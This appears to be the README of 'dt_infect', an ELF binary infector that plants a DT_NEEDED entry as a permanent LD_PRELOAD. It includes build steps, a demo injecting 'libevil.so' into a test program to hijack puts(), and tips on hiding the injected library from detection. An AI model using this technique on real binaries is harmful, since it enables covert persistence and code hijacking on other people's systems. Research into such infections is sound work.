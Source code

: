 # dt_infect v1.0

Author: ElfMaster 2/15/19 - ryan@bitlackeys.org

ELF Shared library injector using DT_NEEDED precedence infection. Acts as a permanent LD_PRELOAD

NOTE: It does not work on PIE executables because it uses a reverse text padding infection to create room
for .dynstr. This could be replaced with a text padding infection, or a PT_NOTE to PT_LOAD conversion
infection in order to store the .dynstr; then it would be compatible with PIE executables.

## Build
```
git clone https://github.com/elfmaster/libelfmaster
cd libelfmaster; make; sudo make install
https://github.com/elfmaster/dt_infect/issues
```
## Example

-- Run test before it is infected

```
$ ./test
Don't infect me please
```

-- Then inject libevil.so into test and hijack puts()

```
$ make
$ ./inject libevil.so test
Updating .dynstr section
Modified d_entry.value of DT_STRTAB to: 3ff040 (index: 9)
Successfully injected 'libevil.so' into target: 'test'. Make sure to move 'libevil.so' into one of the shared object search paths, i.e. /lib/x86_64-gnu-linux/
$ readelf -d test | grep NEEDED
 0x0000000000000001 (NEEDED)             Shared library: [libevil.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
$ ./test
D0n'7 1nf3c7 m3 pl3453
```

## Further work with obfuscation

I will give a hint, since adding this extra layer of obfuscation will make this DT_NEEDED
much harder to detect... but there are several pieces of software out there that can obfuscate
the dynamic string table, which will prevent DT_NEEDED from showing up. The simplest formula
is to zero out .dynstr in the target binary, and inject some constructor code that replaces it
at runtime. @ulexec wrote a much better one that uses a custom runtime resolver.



